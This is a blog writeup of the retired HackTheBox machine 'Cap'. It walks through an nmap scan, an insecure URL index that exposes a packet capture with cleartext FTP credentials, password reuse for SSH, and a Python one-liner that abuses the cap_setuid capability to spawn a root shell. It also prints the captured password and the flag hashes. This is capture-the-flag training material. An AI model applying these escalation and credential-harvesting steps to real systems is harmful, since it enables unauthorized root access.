 Title:HTB: Cap
Date: 10-23-2021 11:40
category:security
tags:security, boot2root, HTB, capabilities
meta:security, boot2root, HTB, capabilities

<img class="align-left" src="/media/2021.10/cap_card.png" alt="cap Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Cap](https://www.hackthebox.com/home/machines/profile/351) published on
June 5, 2021 by
[InfoSecJack](https://www.hackthebox.com/home/users/profile/52045).
This box is rated as easy box the user part implies to know a bit about array
indexes and wireshark. The root part is quit easy and implies a binary
capabilities.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 21 (FTP), 22 (SSH) and 80 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jun 19 08:05:17 2021 as: nmap -p- -sSV -A -oN notes.md 10.129.162.82
    Nmap scan report for 10.129.162.82
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    <SNIP>


## FTP

No anonymous connection is available on it.

## Web

This is a server monitoring website. We can access a few technical information
as the result of the `ip a` command.

![Result of ip a command](/media/2021.10/cap_01.png){: .image-process-article-image}

We also have access to a "capture and analyze packets" tool which make me think
about a tcpdump or wireshark RCE exploit.

![Packet capture and analyzer](/media/2021.10/cap_02.png){: .image-process-article-image}

But this was quit simpler. Notice the "index" in the picture above: 1. Or in
programming language, most table start with the index 0. We just change the URL
to `data/0` and open the pcap with wireshark.

We can see a few FTP frames. The FTP traffic is in clear text, we use the
"follow TCP stream" option from wireshark and get the FTP packets containing a
username and a password.

    :::text
    220 (vsFTPd 3.0.3)
    USER nathan
    331 Please specify the password.
    PASS Buck3tH4TF0RM3!
    230 Login successful.
    SYST
    215 UNIX Type: L8
    PORT 192,168,196,1,212,140
    <SNIP>

We can connect using FTP and get access to Nathan's files but the user is using the same password for his SSH access :S

    :::text
    ┌──(kali㉿kali)-[~]
    └─$ ssh nathan@10.129.162.82
    nathan@10.129.162.82's password: 
    <SNIP>
    nathan@cap:~$ cat user.txt
    881dbf629f65f88eca6c0be9dab5db20


# Root

We quickly check our `sudo` privileges but we do not have any.

The name of the box might be a hint here. We can run a Linux privilege
escalation tool as
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
or just run the appropriate command available on
[Linux privilege escalation methodologies](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

We quickly found out that `/usr/bin/python3.8` has the `setuid` capabilities
which allow to [make arbitrary manipulations of process UIDs](https://man7.org/linux/man-pages/man7/capabilities.7.html)


    :::text
    nathan@cap:/$ getcap -r / 2> /dev/null
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

We just have to run a simple python command either via the python console or in
a oneliner to pop a root shell and grab the flag.

    :::text
    nathan@cap:/$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # id
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    # cat /root/root.txt
    96f9681e3e9831523150b8a56f288a90

# Wrapping up

This was an easy box! I struggle an bit on the "Array index" as I was in the
tcpdump/wireshark rce rabbit hole. Nonetheless a great box for every beginners.

